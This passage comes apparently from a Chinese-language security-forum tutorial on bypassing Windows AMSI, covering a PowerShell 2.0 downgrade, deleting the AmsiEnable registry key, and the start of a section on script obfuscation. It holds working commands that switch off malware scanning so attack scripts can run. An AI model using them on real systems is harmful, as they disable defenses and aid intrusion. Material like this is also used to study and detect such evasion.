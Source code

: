 ```php
注:非管理员权限
Get-ChildItem 'HKLM:\SOFTWARE\Microsoft\NET Framework Setup\NDP' -recurse | GetItemProperty -name Version -EA 0 | Where { $_.PSChildName -match '^(?!S)\p{L}'} | Select -ExpandProperty Version

注：需要管理员权限
Win10:
Get-WindowsOptionalFeature -Online -FeatureName MicrosoftWindowsPowerShellV2

Win2016/Win2019:
Get-WindowsFeature PowerShell-V2
```

#### 实操

在命令行中：直接使用`powershell.exe -version 2`改变运行版本

![image-20211016162350929](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-e530dc832aad28edacc4ab5b3a3fdfa5a3668c61.png)

在脚本中：在脚本开头加入 `#requires -version 2`

这样如果可以使用2.0，脚本会以2.0执行，如果不能，会按照当前powershell版 本执行

注：**不是所有powershell脚本都能在2.0上执行，需要注意攻击脚本是否支持2.0**

Bypass AMSI-2
-------------

### 改注册表

#### 实操

修改注册表

```php
HKLM:\Software\Microsoft\Windows Script\Settings\AmsiEnable
```

设置为 0，以禁用 AMSI

```php
Remove-Item -Path "HKLM:\Software\Microsoft\Windows Script\Settings\AmsiEnable" -Recurse
```

但是，改注册表并不是一种隐秘的方法，并且还需要管理员权限

Bypass AMSI-3
-------------

### 脚本混淆

#### amsi.dll工作流程

我们先来看amsi.dll的工作流程，方便我们去理解脚本混淆 为什么可以绕过amsi.dll

![image-20211016162536060](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-7f83753fcaf5ae74e97d6349fe9955d8164f096e.png)
